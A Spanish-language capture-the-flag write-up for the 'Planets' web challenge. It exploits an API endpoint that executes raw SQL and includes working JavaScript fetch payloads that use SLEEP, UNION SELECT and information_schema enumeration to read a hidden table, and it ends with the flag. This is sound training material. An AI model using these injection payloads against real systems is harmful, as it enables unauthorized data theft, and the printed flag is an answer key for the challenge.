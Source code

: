 # Planets – SQL Injection (Blind/Union) Write‑Up

**CTF:** planets.ctf.zone
**Categoría:** Web / SQL Injection
**Fecha:** 09/08/2025

---

## 1. Descripción del reto

El sitio `https://planets.ctf.zone/` muestra tarjetas con planetas. En el HTML se observa un `fetch` a `/api.php` con `method: POST` y `Content-Type: application/x-www-form-urlencoded`, enviando literalmente `query=SELECT * FROM planets`. El endpoint devuelve JSON que el frontend renderiza (`name`, `image`, `description`).

**Hipótesis:** si el parámetro `query` se ejecuta sin sanitización, es posible inyectar SQL y leer otras tablas/columnas.

---

## 2. Reconocimiento

### 2.1. Confirmar ejecución directa y DBMS

**PoC (desde consola del navegador / DevTools):**

```js
fetch('https://planets.ctf.zone/api.php', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
  body: 'query=' + encodeURIComponent('SELECT SLEEP(3)')
}).then(r => r.json()).then(console.log)
```

El delay confirma ejecución de SQL y que el motor entiende `SLEEP()` → **MySQL/MariaDB**.

### 2.2. Enumerar tablas

Aprovechando que el frontend espera `name,image,description`, se usa `UNION SELECT` cuyos primeros dos campos sean literales neutros (para que casen con las columnas originales) y que el tercer campo sea el SELECT que nos interesa.

```js
fetch('/api.php', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
  body: 'query=' + encodeURIComponent(
    "SELECT name,image,description FROM planets " +
    "UNION ALL SELECT 'X' AS name, 'x' AS image, " +
    "(SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 1)"
  )
}).then(r=>r.json()).then(console.log)
```

Iterando `LIMIT/OFFSET` aparecen tablas del esquema; se identifica:.

![Tabla abandoned_planets encontrada](images/tabla_identificada.png)
*Salida del `UNION` mostrando `abandoned_planets` desde `information_schema`.*

### 2.3. Enumerar columnas de `abandoned_planets`

```js
fetch('https://planets.ctf.zone/api.php', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
  body: 'query=' + encodeURIComponent(
    "SELECT name,image,description FROM planets " +
    "UNION ALL SELECT 'X','x',(SELECT column_name FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='abandoned_planets' LIMIT 1 OFFSET 0)"
  )
}).then(r=>r.json()).then(console.log)
```

Con `OFFSET` 0,1,2 se obtienen: `description`, `id`, `image`. 

---

## 3. Explotación

Lectura directa de la tabla identificada:

```js
fetch('https://planets.ctf.zone/api.php', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
  body: 'query=' + encodeURIComponent('SELECT description, id, image FROM abandoned_planets')
}).then(r=>r.json()).then(console.log)
```

**Salida relevante (resumen):**

![Flag en abandoned_planets](images/flag_encontrada.png)
*Lectura directa de `abandoned_planets` con la flag en `description`.*

---

## 4. Flag

```
flag{9c4dea2d8ae5681a75f86070ac80a999}
```

---